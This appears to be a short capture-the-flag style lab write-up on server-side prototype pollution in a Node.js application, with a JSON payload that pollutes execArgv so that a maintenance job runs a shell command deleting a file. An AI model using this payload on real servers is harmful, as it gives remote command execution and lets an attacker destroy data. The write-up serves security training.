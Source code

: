 # Remote code execution via server-side prototype pollution
I noticed there was a `Run maintainance jobs` button on the admin panel.
I then polluted JSON spaces to see if there was plain prototype pollution - and there was. Then I tried polluting `execArgv` like this:
```json
"__proto__" :{
    "execArgv" : [
        "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
    ]
}
```
And it solved the lab.
